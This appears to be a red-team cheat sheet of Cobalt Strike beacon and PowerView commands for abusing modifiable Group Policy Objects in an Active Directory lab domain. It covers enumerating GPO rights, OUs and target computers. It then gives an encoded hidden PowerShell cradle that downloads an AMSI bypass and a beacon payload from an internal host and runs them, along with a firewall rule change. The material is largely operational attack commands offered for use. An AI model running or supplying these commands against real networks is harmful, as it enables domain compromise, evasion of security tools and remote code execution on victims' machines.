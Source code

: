 
Group Policy

**# Modify Existing GPO**

# 1. Identify GPO where current principal has modify rights
beacon> powershell-import c:\Tools\PowerSploit\Recon\PowerView.ps1
beacon> powerpick Get-DomainSID -Domain dev.cyberbotic.io
beacon> powerpick Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

# 2. Resolve GPOName, Path and SID of principal
beacon> powerpick Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath

beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107

beacon> powerpick Get-DomainGroupMember -Identity "Developers" -Domain dev.cyberbotic.io -Recurse
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}

# 3. Identify the domain OU where the above GPO applies
beacon> powerpick Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName

# 4. Identify the systems under the given OU
beacon> powerpick Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName

# 5. Setup a smb listener and download & execute cradle pointing to port 80
# Make sure to use AMSI Bypass with the powershell cradle.
PS C:\> $str = "iex (iwr http://wkstn-2:8080/amsi-bypass.ps1 -UseBasicParsing) ; iex (iwr http://wkstn-2:8080/smb -UseBasicParsing);"
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

powershell -w hidden -nop -enc aQBlAHgAIAAoAGkAdwByACAAaAB0AHQAcAA6AC8ALwB3AGsAcwB0AG4ALQAyADoAOAAwADgAMAAvAGEAbQBzAGkALQBiAHkAcABhAHMAcwAuAHAAcwAxACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwApACAAOwAgAGkAZQB4ACAAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBzAG0AYgAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAKQA7AA==

# 6. Enable inbound traffic on WebDrive by ports (8080) (requires system access)
beacon> powerpick New-NetFirewallRule -DisplayName "Rule 1" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080
beacon> powershell Remove-NetFirewallRule -DisplayName "Rule 1"
